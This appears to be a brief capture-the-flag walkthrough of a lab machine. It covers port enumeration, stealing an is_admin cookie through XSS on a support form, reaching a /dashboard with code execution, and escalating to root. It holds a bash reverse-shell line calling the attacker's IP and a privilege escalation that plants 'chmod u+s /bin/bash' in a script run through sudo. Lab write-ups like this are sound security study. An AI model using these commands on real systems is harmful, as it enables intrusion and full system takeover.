








# Enumeration
There are two ports open:
```
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

```
Checking port 5000 there is a website and ther is a support section that might be susceptible to XSS

Now trying to get the cookie as there is a cookie called is_admin but it is hashed.

Now running a webserver on host and using the following XSS payload:
```html

```
We get the cookie value:

Using gobuster discovered /dashboard

Now using this cookie we can access /dashboard

There is a code execution here
Now writing a shell.sh.
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.37/9005 0>&1
```
And using burpsuite to intercept:

Now we get a shell
We have sudo privilege over syscheck.
Now checking the application with strings.

It is calling initdb.sh
We can add something malicious in initdb.sh
```
echo "chmod u+s /bin/bash" > initdb.s
chmod +x initdb.sh
```

Now can run
```
sudo /usr/bin/syscheck
/bin/bash -p
```
And we get a root shell:
